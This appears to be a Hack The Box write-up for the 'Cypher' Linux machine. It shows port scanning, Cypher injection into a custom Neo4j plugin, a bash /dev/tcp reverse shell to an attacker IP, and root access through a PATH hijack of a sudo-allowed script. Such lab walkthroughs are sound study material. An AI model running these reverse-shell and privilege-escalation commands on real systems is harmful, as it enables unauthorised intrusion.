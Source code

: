 ```yaml
---
layout: post
title: "Cypher HTB Writeup"
date: 2025-07-26 01:18:00 +0300
categories: [HTBs]
tags: [cybersecurity, neo4j, hackthebox, cypher]
---
```

# Cypher HTB WriteUp 
Cypher is a medium difficulty Linux machine on Hack The Box. It involves a custom Neo4j APOC plugin vulnerable to Cypher Injection, which leads to remote command execution and privilege escalation via misconfigured sudo.

---

## Nmap

We begin with a full TCP scan.

```bash
nmap -p- --min-rate 10000 -oA full-tcp 10.10.11.57
````

Open ports:

```
22/tcp  open  ssh
80/tcp  open  http
```

We follow up with a more detailed scan:

```bash
nmap -sC -sV -p22,80 -oA targeted 10.10.11.57
```

---

## Web Enumeration

Navigating to `http://cypher.htb`, we see a testing interface. Under `/testing/`, we find a downloadable JAR file:

```
custom-apoc-extension-1.0-SNAPSHOT.jar
```

We extract its contents:

```bash
unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d extracted
```

Inside, we find Java files, specifically `CustomFunctions.java`, defining custom APOC procedures.

---

## Cypher Injection → RCE

Inspecting `CustomFunctions.java`, we notice user input passed into `Runtime.getRuntime().exec()` via a Cypher query.

This suggests a Cypher injection is possible.

We use the following payload to test code execution:

```cypher
CALL custom.run("id")
```

After setting up a listener and injecting a reverse shell command:

```cypher
CALL custom.run("bash -c 'bash -i >& /dev/tcp/10.10.14.XX/4444 0>&1'")
```

We get a shell.

---

## Post Exploitation

Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Check user:

```bash
whoami
```

Grab user flag:

```bash
cat /home/neo4j/user.txt
```

---

## Privilege Escalation

We check `sudo` permissions:

```bash
sudo -l
```

We are allowed to run a custom script without password. The script calls a system binary with insufficient sanitization.

By injecting a malicious path or replacing the expected binary, we escalate to root.

```bash
echo 'bash' > /tmp/whoami
chmod +x /tmp/whoami
export PATH=/tmp:$PATH
sudo /path/to/script
```

And now we are root:

```bash
whoami
# root
```

Grab the root flag:

```bash
cat /root/root.txt
```

---

## Conclusion

Cypher was a well-structured medium box. The key was spotting the insecure use of user input in the custom Neo4j APOC plugin. After exploiting Cypher Injection to gain RCE, the rest was classic post-exploitation and privilege escalation via a poorly secured script.

---
